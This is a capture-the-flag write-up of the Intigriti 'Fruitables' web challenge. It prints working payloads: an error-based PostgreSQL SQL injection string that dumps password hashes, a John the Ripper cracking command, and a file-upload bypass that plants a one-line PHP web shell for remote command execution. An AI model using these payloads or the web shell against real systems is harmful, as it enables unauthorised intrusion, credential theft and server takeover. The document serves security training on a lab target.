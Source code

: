 # Fruitables

A website about fruit? Probably no vulnerabilities there.. Move along everybody!

# Flag
```
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
```

# Solution
I explored all the pages but seemed to offer nothing of interest.

<img src="imgs/home.png">

Enumerate endpoints and directories using `dirsearch`:

```bash
dirsearch -u https://fruitables-0.ctf.intigriti.io/

...
# Interesting results:
[21:18:09] 200 -    7KB - /account.php
[21:18:57] 301 -  253B  - /uploads  ->  http://fruitables-0.ctf.intigriti.io/uploads/
...
```

Browsing to `/account.php` shows a registration page, but trying to register prompts us that registration is closed and only allows us to login.

<img src="imgs/login.png">

After conducting some fuzzing, I found an SQLI vulnerability when the username `bob'` is input.

```
Fatal error: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near "'bob''" LINE 1: SELECT * FROM users WHERE username = 'bob'' ^ in /var/www/html/auth/fruitables_login.php:11 Stack trace: #0 /var/www/html/auth/fruitables_login.php(11): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/auth/fruitables_login.php on line 11
```

The nature of the error hints that the database is PostgreSQL. We can craft a payload that extracts data through error messages (reference from [portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):

```
bob'+UNION+SELECT+CAST((SELECT+password+FROM+users+LIMIT+1+OFFSET+2)+AS+int),'2','3','4','5','6
```

<img src="imgs/sqli.png">

Changing the LIMIT and OFFSET value, we can map out the `users` table as such:

| username      | password                                                      |
| ------------- | ------------------------------------------------------------- |
| cryptocat     | y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq         |
| invincible    | y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa        |
| tjfry_admin   | $2y$10$buhvcTHdjqnb2r0L15ilJefOlGTe1rpD31685K02KfOk7xizNisiy  |


We can use John the Ripper to crack the hash of `tjfry_admin`:

```bash
john --wordlist=/opt/rockyou.txt tjfry_admin.txt
```
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0% 0g/s 260.6p/s 260.6c/s 260.6C/s dragonball..outlaw
0g 0:00:00:47 0% 0g/s 264.1p/s 264.1c/s 264.1C/s nesha..100689
futurama         (?)
1g 0:00:00:49 100% 0.02014g/s 263.9p/s 263.9c/s 263.9C/s melbourne..090990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Logging in with the credentials (`tjfry_admin`:`futurama`), we are redirected to the Admin Dashboard.

<img src="imgs/admin.png">

The file upload feature can potentially be exploited to upload a malicious PHP script?
After trying to upload some files, we learn that it only accepts JPEG and PNG files. These files are then renamed and available in `/uploads/`.

I had to utilise several bypass techniques to upload my PHP script, namely:
1. Specifying filename as `test.jpg.php`
2. Start file with JPEG magic bytes, then include PHP code under

```php
#JPEG magic bytes here..

<?php system($_REQUEST['cmd']); ?>  # execute commands in `cmd` query parameter
```

<img src="imgs/fileupload.png">

After the file is successfully uploaded, browse to it under the `/uploads/` folder and append a `cmd` query parameter to execute arbitrary commands on the target. Subsequently, we can find the name of the flag file and read its contents.

<img src="imgs/rce.png">
